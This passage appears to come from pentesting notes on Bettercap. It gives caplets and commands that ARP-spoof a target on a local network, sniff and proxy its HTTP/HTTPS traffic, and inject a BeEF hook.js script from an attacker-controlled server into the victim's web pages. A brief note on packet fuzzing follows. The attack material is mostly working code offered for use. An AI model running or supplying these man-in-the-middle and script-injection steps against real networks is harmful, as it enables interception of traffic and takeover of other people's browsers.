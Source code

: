 ```
set net.sniff.filter tcp port 443
net.sniff on

# we'll use this proxy script to dump requests
set https.proxy.script http-req-dump.js
set http.proxy.script http-req-dump.js
clear

# go ^_^
http.proxy on
https.proxy on
arp.spoof on
```

## <mark style="color:red;">Proxy JS Injection (XSS)</mark>

we use beef-xss active caplet

```
function onLoad() {
  log( "BeefInject loaded." );
  log("targets: " + env('arp.spoof.targets'));
}

function onResponse(req, res) {
  if( res.ContentType.indexOf('text/html') == 0 ){
    var body = res.ReadBody();
    if( body.indexOf('</head>') != -1 ) {
 log( "BeefInject loaded." );
log("targets: " + env('arp.spoof.targets'));
      res.Body = body.replace( 
        '</head>', 
        '<script type="text/javascript" src="http://<YOUR_SERVER>:3000/hook.js"></script></head>' 
      ); 
    }
  }
}
```

```
bettercap -caplet beef-active.cap -eval "set arp.spoof.targets 192.168.1.6; arp.spoof on;" -debug
```

When user opens HTTP website, for instance time.com, hook will be executed

## <mark style="color:red;">Bettercap + BeFF Hook</mark>

{% embed url="https://www.youtube.com/watch?ab_channel=CodeOnCommand&v=CHbIV9eU2mg" %}

## <mark style="color:red;">Fuzzing</mark>

In addition to packet-sniffing capabilities, Bettercap also can mutate packets for network protocol fuzzing using the net.fuzz module. By default, the net.fuzz module will mutate 100% of packets transmitted by Bettercap, mutating 40% of the packet payload data. You can adjust these values by changing the net.fuzz.rate and net.fuzz.ratio parameters.
